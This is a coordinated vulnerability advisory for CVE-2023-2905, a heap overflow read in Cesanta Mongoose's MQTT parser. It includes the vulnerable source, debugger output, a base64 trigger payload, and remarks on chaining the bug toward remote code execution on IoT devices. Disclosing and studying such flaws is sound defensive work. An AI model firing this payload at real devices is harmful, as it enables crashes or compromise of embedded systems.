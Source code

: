 ```yaml
---
layout: default
title: CVE-2023-2905
categories: nav
showinnav: false
---
```


# CVE-2023-2905: Cesanta Mongoose MQTT Message Parsing Heap Overflow

[AHA!] has discovered an issue with Mongoose from Cesanta, and is publishing this disclosure in accordance with AHA!’s standard [disclosure policy](https://takeonme.org/cve.html) today, on Tuesday, August 8, 2023. [CVE-2023-2905] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to a failure in validating the length of a provided `MQTT_CMD_PUBLISH` parsed message with a variable length header, the dual-licensed [Cesanta Mongoose](https://github.com/cesanta/mongoose) embeddable web server version 7.10 is susceptible to a heap-based buffer overflow vulnerability in the default configuration. [CVE-2023-2905] appears to be an instance of [CWE-122](https://cwe.mitre.org/data/definitions/122.html). Version 7.9 and prior does not appear to be vulnerable.

# Technical Details

Below is the code used to parse mqtt messages with lines 365-370 being used to ensure that the variable length portion of the buffer is not larger than 4 bytes and breaking out of the loop if `lc & 0x80` evaluates to false (based on the MSB).

src/mqtt.c
```
352 int mg_mqtt_parse(const uint8_t *buf, size_t len, uint8_t version,
353                   struct mg_mqtt_message *m) {
354   uint8_t lc = 0, *p, *end;
355   uint32_t n = 0, len_len = 0;
356
357   memset(m, 0, sizeof(*m));
358   m->dgram.ptr = (char *) buf;
359   if (len < 2) return MQTT_INCOMPLETE;
360   m->cmd = (uint8_t) (buf[0] >> 4);
361   m->qos = (buf[0] >> 1) & 3;
362
363   n = len_len = 0;
364   p = (uint8_t *) buf + 1;
365   while ((size_t) (p - buf) < len) {
366     lc = *((uint8_t *) p++);
367     n += (uint32_t) ((lc & 0x7f) << 7 * len_len);
368     len_len++;
369     if (!(lc & 0x80)) break;
370     if (len_len >= 4) return MQTT_MALFORMED;
371   }
```

Then lines 393-406 show the code path to the vulnerable function `decode_variable_length`, containing the remaining to be read mqtt buffer after additions to the `p` pointer on lines 394, 397, 402.

src/mqtt.c
```
393     case MQTT_CMD_PUBLISH: {
394       if (p + 2 > end) return MQTT_MALFORMED;
395       m->topic.len = (uint16_t) ((((uint16_t) p[0]) << 8) | p[1]);
396       m->topic.ptr = (char *) p + 2;
397       p += 2 + m->topic.len;
398       if (p > end) return MQTT_MALFORMED;
399       if (m->qos > 0) {
400         if (p + 2 > end) return MQTT_MALFORMED;
401         m->id = (uint16_t) ((((uint16_t) p[0]) << 8) | p[1]);
402         p += 2;
403       }
404       if (p > end) return MQTT_MALFORMED;
405       if (version == 5 && p + 2 < end) {
406         m->props_size = decode_variable_length((char *) p, &len_len);
```

The below shows the buffer from the crash file showing a 10 byte mqtt message with the 8th byte having the MSB set. 

```
Thread 1 "fuzzer" hit Breakpoint 7, LLVMFuzzerTestOneInput (data=0xffffb4500790 "5\b", size=10) at test/fuzz.c:38

38        mg_mqtt_parse(data, size, 5, &mm);
(gdb) x/12bx data
0xffffb4500790: 0x35    0x08    0x00    0x01    0x00    0x00    0x5a    0x8a
0xffffb4500798: 0xff    0xff    0x00    0x00
```

This results in a variable length header being detected but only containing 3 bytes, as can be seen below

```
Thread 1 "fuzzer" hit Breakpoint 8, mg_mqtt_parse (buf=<optimized out>, len=<optimized out>, version=<optimized out>, m=<optimized out>) at src/mqtt.c:415
415             m->props_size = decode_variable_length((char *) p, &len_len);
(gdb) x/10x p
0xffffb0b00797: 0x8a    0xff    0xff    0x00    0x00    0x00    0x00    0x00
0xffffb0b0079f: 0x00    0x02
```

And finally, the `decode_variable_length` function code, which contains no bounds checks on the size of the buffer being read.

src/mqtt.c
```
 92 static uint32_t decode_variable_length(const char *buf,
 93                                        uint32_t *bytes_consumed) {
 94   uint32_t value = 0, multiplier = 1, offset;
 95
 96   for (offset = 0; offset < 4; offset++) {
 97     uint8_t encoded_byte = ((uint8_t *) buf)[offset];
 98     value += (encoded_byte & 0x7F) * multiplier;
 99     multiplier *= 128;
100
101     if (!(encoded_byte & 0x80)) break;
102   }
103
104   if (bytes_consumed != NULL) *bytes_consumed = offset + 1;
105
106   return value;
107 }
```

This allows for a read primitive of 1-3 bytes from a heap overflow.

# Payload

A base64 encoded blob of the payload needed to trigger the vulnerability can be found below.

```
NQgAAQAAWor//w==
```


# Attacker Value

Cesanta Mongoose is an embedded webserver library commonly used to add web server functionality to devices with vendor provided integrations. According to the project's [README](https://github.com/cesanta/mongoose), "Mongoose is used by hundreds of businesses, from Fortune500 giants like Siemens, Schneider Electric, Broadcom, Bosch, Google, Samsung, Qualcomm, Caterpillar to the small businesses." Because it is an embedded software, often implemented in the context of  IOT/ICS (Internet of Things / Industrial Control Systems), its presence may be difficult for affected end-users to audit for.

If an attacker has the capability of sending an MQTT message to the webserver (which would require direct network access to the network hosting the device), that attacker could use the above primitive in a chain to obtain remote code execution on an embedded device. The level of access would depend on the parent process that runs Mongoose. In most IOT/ICS contexts, this would typically result in the total compromise of the webserver, and, if it is not running in a privilege-restricted context, total compromise of the hosting device.

# Remediation

[PR2274](https://github.com/cesanta/mongoose/pull/2274) fixes the issue on the main branch of the open source repository; the vendor has further advised that Mongoose [Version 7.11](https://github.com/cesanta/mongoose/releases/tag/7.11) available for downstream users and implementors addresses the issue.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

* 2023-05-25 (Thu): Initial findings presented at AHA! Meeting 0x00c8
* 2023-06-22 (Thu): PoC validated and this disclosure drafted.
* 2023-06-22 (Thu): Disclosed to the vendor via email at support@cesanta.com.
* 2023-06-23 (Fri): Vendor acknowledged the vulnerability.
* 2023-06-27 (Tue): Vendor fixed `master` branch with [PR2274](https://github.com/cesanta/mongoose/pull/2274).
* 2023-08-07 (Mon): Reached out to vendor for a status update.
* 2023-08-08 (Tue): Vendor advised publishing this disclosure of [CVE-2023-2905].

<br/>

----

[CVE-2023-2905]: https://takeonme.org/cves/CVE-2023-2905.html
[disclosure policy]: https://takeonme.org/cve.html
[AHA!]: https://takeonme.org/

